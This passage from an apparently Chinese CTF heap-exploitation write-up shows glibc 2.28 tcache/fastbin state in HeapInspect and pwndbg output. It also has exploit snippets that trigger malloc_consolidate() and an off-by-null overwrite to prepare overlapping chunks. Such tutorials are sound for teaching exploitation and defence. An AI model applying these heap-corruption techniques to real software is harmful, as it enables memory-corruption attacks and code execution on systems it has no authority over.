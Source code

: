 效果如下：可以看到0x60的fastbin已经被我们成功的放置chunk，并且top_chunksize足够小，使得我们下次触发malloc chunk的时候可以触发malloc_consolidate()函数。

```
================================  HeapInspect  =================================
libc_version:2.28
arch:64
tcache_enable:True
libc_base:0x7ffff7de2000
heap_base:0x555555559000
(0x60)    fastbins[4] -&gt; 0x555555578b30 -&gt; 0x555555578ad0 -&gt; 0x555555578a70 -&gt; 0x555555578a10 -&gt; 0x5555555789b0 -&gt; 0x555555578950 


(0x30)    entries[1] -&gt; 0x555555578cc0 -&gt; 0x555555578c90 -&gt; 0x555555578c60 -&gt; 0x555555578c30 -&gt; 0x555555578c00 
(0x40)    entries[2] -&gt; 0x5555555788c0 -&gt; 0x555555578880 -&gt; 0x555555578840 -&gt; 0x555555578800 -&gt; 0x5555555787c0 -&gt; 0x555555578780 -&gt; 0x555555578740 
(0x50)    entries[3] -&gt; 0x5555555786f0 -&gt; 0x5555555786a0 -&gt; 0x555555578650 -&gt; 0x555555578600 -&gt; 0x5555555785b0 -&gt; 0x555555578560 -&gt; 0x555555578510 
(0x60)    entries[4] -&gt; 0x5555555784b0 -&gt; 0x555555578450 -&gt; 0x5555555783f0 -&gt; 0x555555578390 -&gt; 0x555555578330 -&gt; 0x5555555782d0 -&gt; 0x555555578270 
top: 0x555555578db0
last_remainder: 0x0
unsortedbins: None

pwndbg&gt; x/20xg 0x555555578db0
0x555555578db0:    0x0000000000000000    0x0000000000000031 --- top chunk size
0x555555578dc0:    0x0000000000000000    0x0000000000000000
0x555555578dd0:    0x0000000000000000    0x0000000000000000
```

此时top_chunk已经足够小，我们malloc 0x30大小的chunk 便会触发malloc_consolidate()合并fastbin chunk ，同时我们利用新申请的chunk 进行off_by_null改小unsorted bin chunk，为下面我们构造overlapped chunk制造条件。

```
#trigger malloc_consolidate() and off_by_null.
add(0x28) # idx 5
edit(5,0X28,'A'*0X28) # off_by_null
```

效果如下，我们可以看到 chunk_7的pre_size已经被置为0x210，指向我们的unsorted bin开头；而unsorted bin size确实0x200 , 为后面overlapped chunk做好了准备。

```
================================  HeapInspect  =================================
libc_version:2.28
arch:64
tcache_enable:True
libc_base:0x7ffff7de2000
heap_base:0x555555559000



(0x30)    entries[1] -&gt; 0x555555578cc0 -&gt; 0x555555578c90 -&gt; 0x555555578c60 -&gt; 0x555555578c30 -&gt; 0x555555578c00 
(0x40)    entries[2] -&gt; 0x5555555788c0 -&gt; 0x555555578880 -&gt; 0x555555578840 -&gt; 0x555555578800 -&gt; 0x5555555787c0 -&gt; 0x555555578780 -&gt; 0x555555578740 
(0x50)    entries[3] -&gt; 0x5555555786f0 -&gt; 0x5555555786a0 -&gt; 0x555555578650 -&gt; 0x555555578600 -&gt; 0x5555555785b0 -&gt; 0x555555578560 -&gt; 0x555555578510 
(0x60)    entries[4] -&gt; 0x5555555784b0 -&gt; 0x555555578450 -&gt; 0x5555555783f0 -&gt; 0x555555578390 -&gt; 0x555555578330 -&gt; 0x5555555782d0 -&gt; 0x555555578270 
top: 0x555555578db0
last_remainder: 0x555555578980
unsortedbins: &lt;-&gt; 0x555555578980 

pwndbg&gt; X/100xg 0x555555578950
```